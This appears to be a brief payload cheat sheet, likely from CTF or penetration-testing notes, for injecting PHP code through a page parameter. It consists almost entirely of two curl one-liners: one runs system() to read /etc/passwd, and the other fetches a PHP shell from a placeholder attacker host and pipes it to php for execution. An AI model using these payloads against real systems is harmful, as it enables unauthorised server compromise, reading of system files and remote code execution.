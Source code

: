 #

## LFI
`curl "http://<IP>/index.php?page='+and+die(system('cat+/etc/passwd'))+or+'"`

## RFI
`curl "http://<IP>/index.php?page='+and+die(system('curl+http://<Attacker>/assertion-shell.php|php'))+or+'"`